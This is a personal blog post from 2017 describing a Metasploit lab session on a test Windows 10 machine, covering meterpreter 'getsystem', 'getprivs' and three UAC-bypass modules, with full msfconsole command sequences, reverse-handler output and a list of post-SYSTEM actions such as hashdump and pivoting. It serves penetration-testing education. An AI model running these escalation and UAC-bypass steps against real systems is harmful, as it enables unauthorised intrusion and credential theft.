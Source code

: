 ```yaml
---
title: Privilege Escalation in Windows
date: 2017-05-14 00:00:00 Z
layout: post
---
```


Dusting off `msfconsole` and the Metasploit framework itself, it was time for me to get back on my feet with penetration testing.
<!--more-->
With the recent ransomware [WannaCry](http://www.cnn.com/2017/05/14/opinions/wannacrypt-attack-should-make-us-wanna-cry-about-vulnerability-urbelis/) spreading throughout the globe, I pondered upon the question on how malware is able to attain system-level privileges on a regular Windows machine, locking it down, and making it near-impossible to circumvent.

When utilizing Metasploit against Windows targets, it is essential to escalate user privileges to __SYSTEM__, otherwise being stuck on a user account with regular permissions will limit the pentest. As penetration testers, privilege escalation is considered the most critical point of the post-exploitation step, and all the hard work from gaining initial access, maintaining persistence and circumventing the anti-virus will all seem meaningless.

What are some fun things we can do once we attain __SYSTEM__?

* Attain passwords, including hashes for any accounts on the system ('hashdump')
* Change passwords, create users and change permissions (even administration)
* Pivot to other workstations

A lot of the higher system-level functions of Metasploit rely on gaining system. Many penetration testers work immediately at privilege escalation once the machine is pwned.

Metasploit's `meterpreter` console comes with some built-in Ruby scripts that can already help with the process.

    msf exploit(ms08_067_netapi) > exploit
    ...
    meterpreter > getsystem

In this case, I utilized the built in `getsystem` script. Well, what __exactly__ does `getsystem` do? `getsystem` works on three different techniques. Although I won't go in detail about how they work, Cobalt Strike (a Metasploit GUI framework) wrote a [great blog post](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/) about it.

## Fun and Games

Let's have some fun breaking into a machine and gaining privileges. Originally, the `ms08_067_netapi` exploit was designed
for Windows XP machines, and is definitely not going to work for our modern operating systems and attempting to `getsystem` on just a test XP machine won't prove to be as challenging as privilege escalation on Windows 10.

Using a standard Veil-Evasion encrypted Meterpreter payload binary, I gained physical access inside my test Windows 10 machine. Not as fun as fileless access, but gets the work done. However, when we attempt to utilize `getsystem` this time, all three methods ceased to work. Even doing `getprivs` doesn't yield us that many permissions.

    meterpreter > getprivs
    ============================================================
    Enabled Process Privileges
    ============================================================
    SeShutdownPrivilege
    SeChangeNotifyPrivilege
    SeUndockPrivilege

And keep in mind that this is a standard Windows 10 machine WITHOUT any AVs except for the standard Windows Defender. So, what happened?

## User Account Control

Now's a great time to talk about Window's UAC, or User Account Control feature. This feature was implemented as a security feature such that hackers are not able to gain privileges. This means that in order for a regular user to utilize some sort of service of application that is available exclusively to the administrator, a popup prompt will pop out requesting authentication as a Administrator. Sounds familiar? You definitely has seen UAC before, with all its warnings about unknown publishers for some applications, turning off certain features in the Windows settings, etc.

![uac](http://bit.ly/2qGTpjE)

On Windows 10, UAC has become much more stricter, such that impersonating SYSTEM with `getsystem` becomes much harder ... but not impossible.

## A Few Methods to Bypass UAC

In order to circumvent this, we need to rely on some different techniques.

### Windows Escalate UAC Protection Bypass

This is a method which spawns a new shell session with UAC disabled as a process. This attack works, however, on the basis that UAC is set as "Notify me only when programs try to make changes to my computer", which is standard for many operating systems.

 Let's background our current `meterpreter` session and load up this module up.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac
    msf(bypassuac) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(bypassuac) > set TARGET 1
    TARGET => 1
    msf(bypassuac) > set SESSION 2
    SESSION => 2
    msf(bypassuac) > exploit
    ...

Once complete, we are able to `getsystem` as we did previously.

Of course, this may not totally work. If UAC is set to "Always Notify", loading this process as part of memory will fail. Therefore, if you use a build of Windows that is Vista it will not work, as this is feature is default. In this case, the attack against my Windows 10 build failed.

    msf exploit(bypassuac) > exploit

    [*] Started reverse TCP handler on 192.168.1.170:4444
    [-] Exploit aborted due to failure: not-vulnerable: Windows 10 (Build 14393). is not vulnerable.
    [*] Exploit completed, but no session was created.


### Windows Escalate UAC Protection Bypass (In Memory Injection)

This exploit aims to to inject a DLL binary through the Reflective DLL Injection technique. Similar to the previous exploit, it is important to specify the architecture of the machine.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac_injection
    msf(bypassuac_injection) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(bypassuac_injection) > set TARGET 0
    TARGET => 0
    msf(bypassuac_injection) > set SESSION 2
    SESSION => 2
    msf(bypassuac_injection) > exploit
    [*] Started reverse TCP handler on 192.168.1.170:4444
    [-] Exploit aborted due to failure: not-vulnerable: Windows 10 (Build 14393). is not vulnerable.
    [*] Exploit completed, but no session was created.

Hmmmm, still not fooling anyone.

### Windows Escalate UAC Execute RunAs

This last exploit was actually from [this Metasploitation video](https://www.youtube.com/watch?v=OqmxRIqC3FE&feature=youtu.be) and was conceived by Hak5's [mubix](https://room362.com/). I find this privilege escalation method the most effective, but it does add on a caveat of the target user having to explicitly click on a UAC notification. This exploit calls upon the Windows `ShellExecute` function to start a shell with UAC-bypassed privileges. Once again, it is important that you set the necessary target architecture.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/ask
    msf(ask) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(ask) > set TARGET 0
    TARGET => 0
    msf(ask) > set SESSION 2
    SESSION => 2
    msf(ask) > exploit
    ...

Once executed, the UAC on the Windows machine threw a prompt to a user. Once the user selects OK, the exploit finishes, and I was able to `getsystem`. Success!

---

Thanks for reading this article! Although I had fun getting my feet wet with Metasploit again, I still am reminded about how uninformed I am about the Win API, and really want to dive into binary exploitation, as well as acquainting myself with the Windows architecture for security-oriented purposes. With that said, expect some more fun stuff in the future combining both penetration testing and programming!

With that said, stay safe and good luck with your endeavors!
